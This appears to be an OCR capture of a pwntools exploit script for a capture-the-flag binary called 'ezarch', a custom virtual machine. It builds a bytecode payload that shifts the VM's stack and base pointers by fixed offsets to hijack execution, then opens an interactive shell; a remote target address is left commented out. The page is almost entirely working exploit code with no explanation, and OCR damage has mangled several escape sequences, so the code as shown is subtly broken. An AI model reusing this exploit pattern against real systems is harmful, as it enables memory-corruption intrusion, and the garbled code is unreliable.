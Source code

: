 ```
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, ''))
    uu64    = lambda data   :u64(data.ljust(8, ''))

    ctx.binary = './ezarch'
    #ctx.custom_lib_dir = '/home/iddm/glibc-all-in-one/libs/2.27-3ubuntu1_amd64'
    #ctx.remote = ('172.16.9.21', 9006)
    #ctx.debug_remote_libc = True

    ctx.symbols = `{`
        'node':0x2030C0,
        'R':0x2030c0+0x418
    `}`

    ctx.breakpoints = [0xfd0]#menu

    def lg(s,addr):
        print('33[1;31;40m%20s--&gt;0x%x33[0m'%(s,addr))

    def init(size,init_size,memory,eip,esp,ebp):
        sla('[E]xitn&gt;','M')
        sla('Memory size&gt;',size)
        sla('size&gt;',init_size)
        sa('Input Memory Now',memory)
        sla('eip&gt;',eip)
        sla('esp&gt;',esp)
        sla('ebp&gt;',ebp)

    def sub(type,op1,op2):
        return 'x02'+type+p32(op1)+p32(op2)

    def mov(type,op1,op2):
        return 'x03'+type+p32(op1)+p32(op2)

    rs()
    dbg()

    payload = ''
    #mov R[0],*(stack+ebp)
    payload += mov('x20',0,17)
    #sub R[0],0xa0
    payload += sub('x10',0,0xa0)
    #mov *(stack+ebp),R[0]
    payload += mov('x02',17,0)
    #mov R[0],*(stack+esp)
    payload += mov('x20',0,16)
    #sub R[0],offset
    payload += sub('x10',0,0x2a47a)
    #mov *(stack+esp),R[0]
    payload += mov('x02',16,0)

    init(0x3000,len(payload),payload,0,0,0x1008)

    sla('[E]xitn&gt;','R')

    irt()
```
